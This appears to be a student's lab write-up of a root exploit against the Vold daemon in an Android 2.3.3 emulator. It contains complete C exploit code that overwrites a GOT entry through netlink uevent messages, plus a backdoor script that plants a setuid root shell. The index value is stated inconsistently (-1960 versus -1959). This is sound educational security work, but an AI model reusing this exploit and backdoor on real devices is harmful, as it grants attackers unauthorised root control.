



# Exploiting Vold Vulnerability in Android 2.3.3

In this assignment, I am tasked with writing an exploit to gain root privilege on an Android 2.3.3 device through the Volume Daemon vulnerability.




## Vulnerability

The vulnerable Volume Manager Daemon (Vold) on Android 2.3.3 trusts messages that are received from a PF_NETLINK socket without checking the integrity of messages. This allows local users to execute arbitrary code and gain root privilege via a negative index that is passed to the DirectVolume::handlePartitionAdded method.


## Goal

Gain a root privileged shell on the Android 2.3.3 ARM emulator.

To achieve this, I will write an exploit based on a provided template that can execute my backdoor-creating shell script. 

The exploit takes the following inputs:

`./exploit <got_entry_address> <pointer_address> <vold_process_id>`


## Volume Manager Daemon 

A Vold monitor kernel Uevent looks like this:

Inserting an SD card, for example
```
Uevent: 
ACTION=add
DEVPATH=/devices/platform/msm_sdcc.2/mmc_host/mmc11:c9f2/block/mmcblk0
SUBSYSTM=block
MAJOR=179
MINOR=0
...
..
.
```

And the `DirectVolume::handlePartitionAdded` method of this version of Vold looks like this:



In the previous image, we can see that **part_num** is the number to be used when indexing in **mPartMinors** and that it could be any integer smaller than **MAX_PARTITIONS**. 

This is clearly a vulnerability. Assigning **part_num** a negative integer will allow us to overwrite the content at a smaller address.




## Exploit Creation

To take advantage of this vulnerability, I will make the Vold call **handlePartitionAdded** twice by sending two *add* messages to it. And here is why:

*Note that some of the values used here were obtained in the next section*, **Obtain Addresses and Other Information**


1. The first message will trigger **handlePartitionAdded** with the goal of changing the GOT offset of **atoi()** with the address of **system()**.

For this to happen, the Uevent needs to have these key parameters:

* `MINOR=2949742553` <--- This is **system()**'s address in decimal (hex: 0xafd17fd9).

* `PARTN=-1960` <--- Where **-1960** is the calculated distance (divided by 4 because it's the index of an array of integers) between the **mPartMinors** array and the GOT offset of **atoi()**.

Thus, the action will happen when `mPartMinors[-1959] = 2949742553`. Remember that this decimal value of 2949742553 will be represented in hexadecimal (well, binary, really) when stored in memory as computers don't do decimals! 


2. The second message will go ahead and trigger a second call to **handlePartitionAdded** which calls **atoi()** in line number 2, but because **atoi()**'s address was replaced with **system()**'s address, then what is actually going to be executed is:

* `system(MAJOR)` <--- Where `MAJOR=/data/local/tmp/create_backdoor.sh`.

The backdoor creating program remounts the */data* partition with RW permission (by default */data* only has R permission), and creates a root-owned setuid-enabled *sh* file in the local directory (*/data/local/tmp*).

**create_backdoor.sh**
```bash
#!/system/bin/sh
cat /system/bin/sh > /data/local/tmp/sh;
mount -o remount,rw /dev/block/mtdblock1 /data;
chown root.root /data/local/tmp/sh;
chmod 4711 /data/local/tmp/sh;
```


Hence, it is possible to change the regular execution of the Vold program by crafting those specific Uevent messages. I will do that by using the provided template called [template](template.c).

But before this, we need to get the missing information.


## Obtain Addresses and Other Information

1. To figure out **atoi()**'s' offset address in the GOT:

We need Vold's binary for this. The following commands will get the binary from the android system to our local computer through adb (Android Debug Bridge).


`[sdk_root_dir]/platform-tools/adb pull /system/bin/vold ~/tmp/`

`[ndk_root_dir]/toolchains/arm-linux-androideabi-4.9/prebuilt/darwin-86_64/bin/arm-linux-androideabi-objdump –R ~/tmp/vold`


The last command outputs:


```
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
00014350 R_ARM_JUMP_SLOT   __libc_init
00014354 R_ARM_JUMP_SLOT   fopen
00014358 R_ARM_JUMP_SLOT   strlen
0001435c R_ARM_JUMP_SLOT   strsep
00014360 R_ARM_JUMP_SLOT   __android_log_buf_print
00014364 R_ARM_JUMP_SLOT   strcmp
00014368 R_ARM_JUMP_SLOT   atoi
```

Thus, `got_address = 0x00014368`.


2. To figure out **mPartMinors**'s pointer base address:

I used the provided *find_pointer_address* script.


`[sdk_root_dir]/platform-tools/adb push [dir]/find_pointer_address.out /data/local/tmp/find_pointer_address`

`[sdk_root_dir]/platform-tools/adb shell`

`cd /data/local`

`chown log.log tmp`

`cd tmp`

`chmod 755 find_pointer_address`

`su log`

`ps`

`./find_pointer_address [vold_process_id]` 


And thus `ptr_address = 0x00016208`.


3. To calculate the offset between **atoi()**'s offset and **mPartMinors** pointer address: 

It will be necessary to remember that an integer in C is 4 bytes, and therefore, (got_address - ptr_address) will be too far away in memory because we are dealing with indexing an integer array. Traversing an array translates into traversing every 4 bytes of memory. 

Hence our index is `idx = (got_address - ptr_address)/4;`


4. To figure out the address of **system()**:

For this, I used the provided **find_system()** function; I called it in [hello.c](hello.c).

From this we get that `sys = 0xafd17fd9`.


5. Crafting of the first message:

```C
    int length = sprintf(buf, "@/foo%c"
                              "ACTION=add%c"
                              "DEVPATH=/devices/platform/goldfish_mmc.0%c"
                              "SUBSYSTEM=block%c"
                              "MAJOR=179%c"
                              "MINOR=%p%c"
                              "DEVTYPE=harder%c"
                              "PARTN=%d", 0, 0, 0, 0, 0, sys, 0, 0, idx);
```

Because the length of the message is a necessary parameter to send a socket, I can take advantage of *sprintf*'s return value, which is the length of the string that was written into the char array, and use it when needed.


6. Crafting of the second message:

```C
    length = sprintf(buf, "@/foo%c"
                          "ACTION=add%c"
                          "DEVPATH=/devices/platform/goldfish_mmc.0%c"
                          "SUBSYSTEM=block%c"
                          "MAJOR=/data/local/tmp/create_backdoor.sh%c"
                          "MINOR=1%c"
                          "DEVTYPE=harder%c"
                          "PARTN=1", 0, 0, 0, 0, 0, 0, 0);
```


## Actual Exploit

```C
static int send_msgs(uint32_t idx, uint32_t pid)
{
  //*****************************************************************
    char buf[0x1000]; // buf should contain the string you crafted.
  //*****************************************************************
    
    struct sockaddr_nl snl;
    struct iovec iov = {buf, sizeof(buf)};
    struct msghdr msg = {&snl, sizeof(snl), &iov, 1, NULL, 0, 0};
    int sock = -1, n = 0;

    usleep(200000);
    memset(buf, 0, sizeof(buf));
    memset(&snl, 0, sizeof(snl));
    snl.nl_family = AF_NETLINK;

    // Open socket to talk to vold via netlink
    if ((sock = socket(PF_NETLINK, SOCK_DGRAM, NETLINK_KOBJECT_UEVENT)) < 0)
        die("[-] socket");

    snl.nl_pid = pid;

    //**********************************************************************
    //****Write your code here to craft first string and write into *buf****
    //**********************************************************************

    int sys = 0xafd17fd9;

    int length = sprintf(buf, "@/foo%c"
                              "ACTION=add%c"
                              "DEVPATH=/devices/platform/goldfish_mmc.0%c"
                              "SUBSYSTEM=block%c"
                              "MAJOR=179%c"
                              "MINOR=%d%c"
                              "DEVTYPE=harder%c"
                              "PARTN=%d", 0, 0, 0, 0, 0, sys, 0, 0, idx);

    //**********************************************************************
    
    msg.msg_iov->iov_len = length; /* put your first string's length here. */
    
    //**********************************************************************
    
    n = sendmsg(sock, &msg, 0);
    if (n < 0) {
        close(sock);
        return n;
    }

    printf("First message sent!\n");

    usleep(500000);

    //***************************************************************************
    //****Write your code here to craft the second string and write into *buf****
    //***************************************************************************
    length = sprintf(buf, "@/foo%c"
                          "ACTION=add%c"
                          "DEVPATH=/devices/platform/goldfish_mmc.0%c"
                          "SUBSYSTEM=block%c"
                          "MAJOR=/data/local/tmp/create_backdoor.sh%c"
                          "MINOR=1%c"
                          "DEVTYPE=harder%c"
                          "PARTN=1", 0, 0, 0, 0, 0, 0, 0);

    //**********************************************************************

    msg.msg_iov->iov_len = length; /* put your second string's length here. */

    //**********************************************************************

    n = sendmsg(sock, &msg, 0);

    close(sock);

    printf("Second message sent!\n");

    return n;
}


int main(int argc, char **argv, char **env)
{
    //****Write your code here to get user input, caculate idx and send_msgs****
    //Usage: exploit <GOT_ADDR> <PTR_ADDR> <PID_vold>
    
    //get user input
    int got_address = (int)strtol(argv[1], NULL, 16);   //GOT address
    int ptr_address = (int)strtol(argv[2], NULL, 16);   //PTR address
    uint32_t pid = (int)strtol(argv[3], NULL, 10);      //PID vold

    printf("atoi() GOT address: %x\n", got_address);
    printf("pointer address: %x\n", ptr_address);
    printf("vold pid: %d\n", pid);

    //calculate idx
    uint32_t idx = (got_address - ptr_address)/4;
    printf("idx: %d\n", idx);
    
    send_msgs(idx, pid);
    
    return 0;
}

```


Example of use:


```
$ ./exploit 00014368 00016208 29
atoi() GOT address: 14368
pointer address: 16208
vold pid: 29
idx: -1960
First message sent!
Second message sent!
$ ./sh
# 
```


Notice how the intial shell is not priviliged (by the *$*) and how the last shell is (by the *#*). 
